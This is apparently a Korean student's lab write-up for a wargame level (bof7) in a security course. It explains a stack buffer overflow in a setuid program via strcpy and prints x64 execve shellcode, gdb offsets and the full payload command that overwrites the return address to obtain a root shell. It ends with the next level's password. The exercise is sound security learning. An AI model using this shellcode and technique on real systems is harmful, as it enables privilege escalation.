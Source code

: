 # GBC_security HW7  
## bof7 write-up  

### write-up에 앞서, 병민군의 도움이 없었다면 못풀었을 문제이므로, HDMI연결해서 직접 우리들에게 지식을 나눠주신 빛병민님에게 감사드리며 시작하겠습니다  
---

쉘코드란?  
- 쉘을 실행시킬 수 있는 코드.  
- 어셈블리어 코드를 문자열로 삽입할 수 있도록 기계어로 변환하여 묶은 것.  
- ```setuid``` 가 설정된 프로그램에서 ```return address``` 를 조작할 수 있을 때 쉘을 실행시킬 수 있는 어셈블리 코드를 문자열로 삽입하고 삽입된 문자열의 주소값으로 ```return address``` 를 조작한다.  
[출처:찬솔님의 강의노트?](https://github.com/ccss17/security-tutorial/tree/master/07-Exploit2)  

오늘 실험에 쓸 쉘코드는 [링크](http://shell-storm.org/shellcode/files/shellcode-806.php)에서 만들어진 리눅스 x64 아키텍처용 쉘 코드이다.  

우리가 직접 쉘 코드를 만들지 않고 ```\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```를 쓰겠다.  

시작해보자.  

일단, gets와 strcpy의 취약점은 input을 버퍼에 저장할 때 길이 검증 없이 데이터를 스택에 쌓는다.  
이러한 부분을 이용할 것인데, 이번에는 함수의 return address를 약간 조작(?)하여 쉘코드를 실행시킬 것이다.  


![bof7_1](img/bof7_1.PNG)  
소스코드이다.  

인자로 argv[1]를 함수에 전달.  strcpy구문도 보인다.  

buf의 주솟값과 vuln함수의 return address의 차이를 구해, 그 길이만큼 의미없는 값(1바이트의 문자)을 주고 그 후에 쉘 코드를 주면 쉘이 실행될것이다.  

해보자.  

자 vuln함수로 들어가면 바로 rsp에 return address가 들어간다.  이를 기억하자. *0x7fffffffe488*  
![bof7_2](img/bof7_2.PNG)  

계속 ni로 한줄씩 실행하다보면, 그림과 같이 setruid의 함수를 호출한 후, test를 하고 je로 점프를 한다.  
그 후는 perror가 call되고, exit이 call된다.  
에러에 잡히면 프로그램에 exit된다.  
우리는 에러를 피해야한다!  

우리는 set &eflags |= (1 << 6)라는 명령을 통해, ZF를 true로 바꿔준다.  

![bof7_3](img/bof7_3.PNG)  

그렇게 두개의 if문을 넘어 strcpy가 call 되는 부분까지 간다.  
![bof7_4](img/bof7_4.PNG)  

rdi에 rsi를 cpy한다.  
여기서 rdi가 buf다. rsi는 argv[1].  

그렇담 우린 buf의 address인 p $rdi를 기억하자.  
*0x7fffffffe400*이다.  

둘의 차이 = 거리 =  136  
![bof7_5](img/bof7_5.PNG)  

자 136만큼 'x'를 주고 shell code를 주면 될것이다!  

./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\x88\xe4\xff\xff\xff\x7f'"` 이렇게 명령어를 해주면 136개가 채워지고, 그 후, return address를 buf의 address로 덮어버리면, 프로그램은 쉘 코드가 있는 주소로 이동하게 되고, 권한이 상승된 쉘을 얻을 수 있다.  

하지만, 여기서 에러가 뜬다.  
![bof7_6](img/bof7_6.PNG)  

소스코드에서 buf의 포인터 주소를 print해주는 부분이 있다.  
내가 넣은 주소는 '\x88\xe4\xff\xff\xff\x7f'인데, print되는 부분은 '\xb0\xe3\xff\xff\xff\x7f'이다.  

그래서 명령을 바꿨다.  
그랬더니 됐다.~gdb에서 찾은 값이랑 직접 실행하는 것과 값이 다르다고 생각했음.  
![bof7_7](img/bof7_7.PNG)  

> bof8 passwd = <u>04ccd53d</u>  